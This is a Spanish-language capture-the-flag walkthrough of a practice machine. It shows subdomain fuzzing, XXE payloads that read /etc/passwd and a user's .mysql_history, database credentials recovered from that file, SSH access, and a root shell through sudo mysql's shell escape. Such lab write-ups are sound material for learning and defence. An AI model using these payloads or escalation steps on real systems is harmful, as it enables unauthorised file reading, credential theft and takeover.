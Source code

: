 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230926104210.png]]
Y en el puerto 80 vemos que no hay nada aparentemente:
![[Mis apuntes/ANEXOS/Pasted image 20230926104349.png]]
Pero si vemos el código fuente nos encontramos con esto:
![[Mis apuntes/ANEXOS/Pasted image 20230926104410.png]]
Añadimos el dominio en el /etc/host:
![[Mis apuntes/ANEXOS/Pasted image 20230926104535.png]]
Y hacemos búsqueda de subdominios:
```bash
wfuzz -c -t 200 --hl 75 -w subdomains-top1million-110000.txt -H "Host: FUZZ.ext.nyx" http://ext.nyx
```
O con gobuster:
```bash
gobuster vhost -u http://ext.nyx -w subdomains-top1million-110000.txt | grep -v '400'
```
Y tenemos el subdominio administrator:
![[Mis apuntes/ANEXOS/Pasted image 20230926105521.png]]
Lo añadimos al /etc/hosts y deberíamos poder acceder a él desde el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230926105704.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230926105714.png]]
Ponemos unas credenciales aleatorias e interceptamos con burp suite la petición, donde vemos que poder estar ante un XML External Entity:
![[Mis apuntes/ANEXOS/Pasted image 20230926105854.png]]
Le ponemos el siguiente payload basándonos en el que viene por defecto:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY prueba SYSTEM "file:///etc/passwd"> ]>
<details>
<email>
&prueba;
</email>
<password>1234</password>
</details>
```
Vemos que hay un usuario llamado mysql:
![[Mis apuntes/ANEXOS/Pasted image 20230926124527.png]]
Por lo que podemos intentar apuntar contra el mysql.history:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY prueba SYSTEM "file:///home/admin/.mysql_history"> ]>
<details>
<email>
&prueba;
</email>
<password>1234</password>
</details>
```
![[Mis apuntes/ANEXOS/Pasted image 20230926124604.png]]
Y tenemos las siguientes credenciales:
```bash
root:r00tt00rDB
```
Iniciamos sesión con estas credenciales y vemos que funciona bien:
![[Mis apuntes/ANEXOS/Pasted image 20230926125018.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230926125032.png]]
Y vemos la contraseña del usuario admin:
![[Mis apuntes/ANEXOS/Pasted image 20230926125108.png]]
```bash
admin:4dminDBS3cur3P4ssw0rd123
```
Y con esta contraseña entramos correctamente por ssh:
![[Mis apuntes/ANEXOS/Pasted image 20230926125555.png]]
Y si ejecutamos el comando sudo -l vemos cómo podemos ejecutar como sudo mysql:
![[Mis apuntes/ANEXOS/Pasted image 20230926125756.png]]
Buscamos en gtfobins como explotar esto y lo hacemos, pero nos pedirá que pongamos la contraseña de la base de datos nuevamente:
```bash
sudo /usr/bin/mysql -e '\! /bin/sh' -p
r00tt00rDB
```
![[Mis apuntes/ANEXOS/Pasted image 20230926125910.png]]
